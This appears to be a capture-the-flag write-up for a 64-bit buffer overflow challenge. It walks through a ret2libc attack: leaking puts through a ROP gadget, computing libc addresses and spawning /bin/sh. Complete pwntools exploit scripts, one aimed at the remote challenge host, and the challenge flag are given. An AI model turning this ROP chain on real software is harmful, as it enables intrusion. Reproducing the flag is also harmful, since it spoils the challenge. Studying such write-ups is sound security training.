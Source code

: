 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day16_description.png">

First, I decompiled the binary in dogbolt:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_16_info.png">

Its a simple program, but there is a buffer overflow at `fgets(&buf, 0x80, stdin);`, where 128 bytes are read inside buf, which is a type void. There is no win function so I used ROP. The file is also a 64 bit executable, which is important to keep in mind. First I tried to find the correct offset using the same approach as in the previous binary challange ([day10]()). Basically 
I used `cyclic_find` to which I added 8 bytes (size of RBP) and the final offset was `72`. Alright, now my ideas was to leak the puts address, which then will help me calculate the base address of libc. This is needed since ASLR is enabeled. Since this was a 64 bit executable (remember!?) we also need to be carefull how parameters are passed to functions. Basically a ROP gadget is needed to pop the value of RDI (throught which function parameters are passed). To find one I used:
```bash
ROPgadget --binary main | grep "pop rdi"
```
Now, we just need to put the value we want to print (in this case is the memory address of puts) in RDI and then put the function call on the stack. Finally, we need to re-run the main function, so we can do the actual exploit and get the shell.  Here is the exploit described so far:
```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 

rop = ROP(elf) 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
puts_got = elf.got['puts']  
main_addr = 0x4011ee  

payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)
```
Sending the payload now, a line is returned which shows us what we entered and at the end the leaked puts address, so its important to parse this correctly to get the correct address. I definitely made my approach more complicated than it needed to be:


```python
p = process('./main')          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      

output = p.recvline()  
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
raw_bytes = bytes.fromhex(hex_output.replace(' ', '')) 

search_sequence = b'\x96\x11\x40'
position = raw_bytes.find(search_sequence)
result = raw_bytes[position + len(search_sequence):]
result_without_last_byte = result[:-1]

print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')

```

I transform the data to hex and look at the bytes after the `96 11 40` sequence which is the address of pop_rdi_ret, but in little endian. Then I just delete the last byte which is the `\n` character and transofrmed the addres to big endian and then make it an integer value.

Now, I can calculate the value of the base libc by substracting from the memory address of puts, the offset of puts. With the base libc I can calculate the memory address of the `system` function and the `\bin\sh` string:

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

```
Finally we craft the exploit in a similar manner as for the first step, with the only difference being the addition of a ret gadget, which is used for stack alignment.

```python
ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 

p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 
```

Then we get a shell and thus the flag if we connect remote. Below is my final complete script with some addtional prints:

```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 
context.log_level='debug'

io = process(elf.path)

rop = ROP(elf) 

# Attach gdb to the running process
#gdb.attach(io, gdbscript=""" set environment LD_LIBRARY_PATH ./libc.so.6 """)

host = "ctf.csd.lol"
port = 2020 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
print("puts_p in Hex:", hex(puts_plt))
puts_got = elf.got['puts']  
print("puts_got in Hex:", hex(puts_got))
main_addr = 0x4011ee         


payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)                


#p= process('./main')
p = remote(host,port)          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      



output = p.recvline()  
print("TESTTT "+ output.decode(errors='ignore'))
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
print("TESTTT " + hex_output)


raw_bytes = bytes.fromhex(hex_output.replace(' ', ''))  

# Take the bytes after pop_rdi_ret address
search_sequence = b'\x96\x11\x40'

position = raw_bytes.find(search_sequence)

result = raw_bytes[position + len(search_sequence):]
print(result)

result_without_last_byte = result[:-1]
print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')
print(leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
print(libc.symbols['puts'])
print("libc_base: " + str(libc_base))

system_addr = libc_base + libc.symbols['system']
print("system_addr: " + str(system_addr))

bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
print("bin_sh_addr : " + str(bin_sh_addr ))

ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 


p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 

```

An important note is to remember to use `pwnutils` for the local exploit when the libc is given, I personally did not know that and I had the correct script locally, but of course it didn't work because it's not loading the correct libc. So just putting the executable and libc file in the same directory is not enough !!!


`csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`
